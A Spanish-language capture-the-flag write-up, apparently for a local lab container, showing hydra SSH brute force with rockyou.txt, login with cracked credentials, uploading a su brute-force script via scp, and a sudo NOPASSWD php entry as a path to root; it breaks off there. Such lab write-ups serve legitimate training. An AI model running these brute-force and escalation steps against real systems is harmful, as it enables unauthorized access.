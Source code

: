 ### Ejecucion del Ataque
Ahora que sabemos los nombres de los dos usuarios, Realizaremos un ataque de fuerza bruta con **hydra**
Guardamos los nombres de los usuarios en un archivo: **( users.txt )**
```bash
# Comandos para explotación
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -t 64 ssh://172.17.0.2
```

Tenemos las credenciales del usuario:
```bash
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
```

### Intrusion
Ahora nos conectamos por **ssh** con estas credenciales:
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh manchi@172.17.0.2
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
Realizada una enumeracion con encontramos, permisos especiales, SUID, Capabiliteies, Procesos del sistema, archivos ocultos, Etc
Asi que realizaraemos fuerza bruta a los usuarios del sistema:

Ya con las dos herramientas disponilbes **( Linux-Su-Force.sh ) ( rockyou.txt )**:
```bash
scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi/Linux-Su-Force.sh
scp rockyou.txt manchi@172.17.0.2:/home/manchi/rockyou.txt
```

Una ves transferidas las herramientas ejecutamos el ataque de fuerza bruta:
```bash
./Linux-Su-Force.sh seller rockyou.txt
```

```bash
Contraseña encontrada para el usuario seller: qwerty
```

Nos logueamos como ese usuario:
### Explotacion de Privilegios

###### Usuario `[ seller ]`:
Listando los permisos para este usuario:
```bash
sudo -l

User seller may run the following commands on f2c77ffc68a5:
    (ALL) NOPASSWD: /usr/bin/php # tenemos una via potencial de migrar a root
```
